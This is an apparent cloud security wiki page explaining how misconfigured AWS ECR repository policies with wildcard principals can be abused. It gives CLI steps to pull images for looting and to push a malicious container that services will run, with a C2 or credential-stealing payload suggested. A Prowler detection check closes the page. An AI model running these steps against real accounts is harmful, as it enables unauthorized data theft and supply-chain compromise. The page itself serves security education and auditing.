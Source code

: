 ```yaml
---
author: Nick Frichette
title: Abusing Misconfigured ECR Resource Policies
description: How to take advantage of misconfigured AWS ECR private repositories.
---
```


AWS Elastic Container Registry (ECR) [private repositories](https://docs.aws.amazon.com/AmazonECR/latest/userguide/Repositories.html) use resource-based policies to delineate which entities are permitted to push and pull containers. As a result, it is possible for these policies to be [misconfigured](/aws/exploitation/Misconfigured_Resource-Based_Policies/) and potentially abused. The following are some examples of possible misconfigurations and the required permissions needed to take advantage of them.

!!! Note
    Aside from the [wildcard principal](/aws/exploitation/misconfigured_resource-based_policies/#the-principal-and-risks), you should also be mindful of overbroad permissions in general, such as permitting an entire AWS account to have access.

## Understanding ecr:GetAuthorizationToken

A unique [requirement](https://docs.aws.amazon.com/AmazonECR/latest/userguide/repository-policies.html#repository-policy-vs-iam-policy) to abusing misconfigured resource-based policies in ECR is [ecr:GetAuthorizationToken](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-authorization-token.html). The attacking entity must have this permission via an identity-based policy, it cannot be permitted via a resource-based policy (even if the `Action` element is `ecr:*`). For scenarios in which the policy has a [wildcard principal](/aws/exploitation/misconfigured_resource-based_policies/#the-principal-and-risks) and a broken policy, this is not a problem as you can create a role with the needed permission.

!!! Note
    When interacting with an ECR private repository via the [Docker](https://github.com/docker/cli) cli, you use [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html) to authenticate. This calls `ecr:GetAuthorizationToken` to provide the needed authorization.

## Downloading Containers

**Required Permissions**: [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html), [ecr:BatchGetImage](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/batch-get-image.html), [ecr:GetDownloadURLForLayer](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-download-url-for-layer.html).

As an example, take the following misconfigured resource policy for an ECR private repository.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowAll",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "ecr:BatchGetImage",
        "ecr:GetDownloadUrlForLayer"
      ]
    }
  ]
}
```

This policy would permit us the ability to download containers from the vulnerable repository to our own account. We can take advantage of this with the following commands. First, we need to authenticate to the repository.

```
aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <account ID>.dkr.ecr.<region>.amazonaws.com
```

Next, we will pull the container with the following command.

```
docker pull <account ID>.dkr.ecr.<region>.amazonaws.com/<repository name>:vulnerable
```

We can now loot this container for source code or other valuable information.

## Uploading Containers

**Required Permissions**: [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html), [ecr:InitiateLayerUpload](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/initiate-layer-upload.html), [ecr:UploadLayerPart](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/upload-layer-part.html), [ecr:BatchCheckLayerAvailability](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/batch-check-layer-availability.html), [ecr:CompleteLayerUpload](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/complete-layer-upload.html), [ecr:PutImage](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/put-image.html).

!!! Info
    As an anecdotal aside, the number of permissions required to perform a container upload may inadvertently increase the likelihood of a `Principal` being set to `*`. If you're a developer or ops person just trying to get something done, it may be enticing to set it to a wildcard and be done with it/forget about it.

As an example, take the following misconfigured resource policy for an ECR private repository.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "ExamplePolicy",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "ecr:*"
    }
  ]
}
```

This policy would permit us the ability to upload containers to the repository from our own account. We can take advantage of this with the following commands. First, we need to authenticate to the repository.

```
aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <account ID>.dkr.ecr.<region>.amazonaws.com
```

Next, we need to create/choose a container to upload. In a real world scenario you would likely want to create a container which runs your C2 of choice, or perhaps a simple script to retrieve IAM credentials. For this example, we will use an Ubuntu container.

```
docker tag ubuntu:latest <account ID>.dkr.ecr.<region>.amazonaws.com/<repository name>:vulnerable
```

And finally we push the container into the repository.

```
docker push <account ID>.dkr.ecr.<region>.amazonaws.com/<repository name>:vulnerable
```

Now we simply have to wait for a service (ECS, EKS, EC2, Lambda, etc.) to pull this malicious container and execute it, giving us access to that environment.

## Detection

To find exposed ECR private repositories you can use [Prowler](https://github.com/prowler-cloud/prowler), an open source tool to audit for AWS security. The following command can be used with version 3.0 or higher.

```
./prowler -c ecr_repositories_not_publicly_accessible
                         _
 _ __  _ __ _____      _| | ___ _ __
| '_ \| '__/ _ \ \ /\ / / |/ _ \ '__|
| |_) | | | (_) \ V  V /| |  __/ |
| .__/|_|  \___/ \_/\_/ |_|\___|_|v3.0-beta-21Nov2022
|_| the handy cloud security tool

Date: 2022-11-26 19:12:03

This report is being generated using credentials below:

AWS-CLI Profile: [default] AWS Filter Region: [all]
AWS Account: [000000000000] UserId: [AROAQQPLEQBZZHQGGAQ55:Nick]
Caller Identity ARN: [arn:aws:sts::000000000000:assumed-role/snip/Nick]

Executing 1 checks, please wait...

-> Scan is completed! |▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉| 1/1 [100%] in 4.5s 

Overview Results:
╭───────────────────┬─────────────────╮
│ 100.0% (1) Failed │ 0.0% (0) Passed │
╰───────────────────┴─────────────────╯

Account 009619941490 Scan Results (severity columns are for fails only):
╭────────────┬───────────┬──────────┬────────────┬────────┬──────────┬───────╮
│ Provider   │ Service   │ Status   │   Critical │   High │   Medium │   Low │
├────────────┼───────────┼──────────┼────────────┼────────┼──────────┼───────┤
│ aws        │ ecr       │ FAIL (1) │          1 │      0 │        0 │     0 │
╰────────────┴───────────┴──────────┴────────────┴────────┴──────────┴───────╯
```

!!! Note
    `Condition` elements may induce false positives.
